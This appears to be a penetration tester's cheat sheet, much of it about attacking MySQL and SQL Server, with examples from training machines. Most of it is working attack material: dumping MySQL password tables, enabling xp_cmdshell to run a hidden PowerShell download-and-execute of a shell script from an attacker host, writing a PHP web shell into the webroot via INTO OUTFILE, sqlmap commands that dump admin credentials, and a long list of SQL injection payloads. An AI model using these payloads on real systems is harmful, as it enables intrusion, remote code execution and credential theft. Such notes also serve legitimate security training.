 `MySQL` is an open-source SQL relational database management system developed and supported by Oracle. A database is simply a structured collection of data organized for easy use and retrieval. The database system can quickly process large amounts of data with high performance. Within the database, data storage is done in a manner to take up as little space as possible. The database is controlled using the [SQL database language](https://www.w3schools.com/sql/sql_intro.asp). MySQL works according to the `client-server principle` and consists of a MySQL server and one or more MySQL clients. The MySQL server is the actual database management system. It takes care of data storage and distribution. The data is stored in tables with different columns, rows, and data types. These databases are often stored in a single file with the file extension `.sql`, for example, like `wordpress.sql`.
### Basics
```
sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*


```sql
# Try connection from outside
mysql --host <IP> -u root -proot
        
# Connection from the target machine
mysql -u root -proot database

show databases;
select version();
use database_name;
show tables;
describe table_name;
select host, user, password from mysql.user;
```

### Enable CMDShell
```bash
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
#Now we can run commands
EXECUTE xp_cmdshell 'whoami';

EXEC xp_cmdshell 'powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString(''http://<your-ip>/shell.ps1'')"';

```
### SQLMap
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap
```
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char

sqlmap -u "http://usage.htb/forget-password" --level=5 --risk=3 --dmbs=mysql -p field
```

#### SQLMap with Burp Requests
```
# Capture the request from Burp Suite, save it to a file, and then embed it in your sqlmap command using the -r flag
sqlmap -r req.txt
# If everything fails check for user agent or cookie SQLI

# --level=2 required for cookie injection

sqlmap -r forget-password.req --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump

sqlmap -u "http://monitorsthree.htb/forgot_password.php" \
--data="username=Vewf" \
-level 5 --risk 3 --technique=T --time-sec=5 --dbms=mysql --batch

sqlmap -r login.req --random-agent --level=5 --risk=3 --dbs

sqlmap -r login.req --random-agent --level=5 --risk=3 -D jetadmin --tables

sqlmap -r login.req --random-agent --level=5 --risk=3 -D jetadmin -T users --dump
```

 Sessions Cookie SQLI
![[sqli.png]]


```
' UNION ALL SELECT null,null,null,null,null,null,"<?php system($_GET['cmd']); ?>",null INTO OUTFILE '/var/www/html/reverse.php' #
```

### SQLI
```
jeremy' OR 1=1#
jeremy' OR 1=1-- -

# Union Query to Extract Information
jeremy' UNION SELECT null#
jeremy' UNION SELECT null,null#
jeremy' UNION SELECT null,null,null#
jeremy' UNION SELECT null,null,version()#
jeremy' UNION SELECT null,null,table_name from information_schema.tables#
jeremy' UNION SELECT null,null,column_name from information_schema.columns#
Senpai Knife Set' UNION SELECT null,null,null,CONCAT(username, ':', password) from injection0x03_users#

# In Burp attacks use automatic char encoding with CTRL+U and undo with CTRL + SHIFT +U

' AND SUBSTRING('alex',1,3)= 'a'#
' AND SUBSTRING((SELECT VERSION()), 1, 1) = '7'#
' AND SUBSTRING((SELECT VERSION()), 1, 1) = '8'#
' AND SUBSTRING((SELECT VERSION()), 1, 2) = '8.'#
' AND SUBSTRING((SELECT password from injection0x02 where username = 'jessamy'), 1, 1) = ''#

admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

![[sqli2.png]]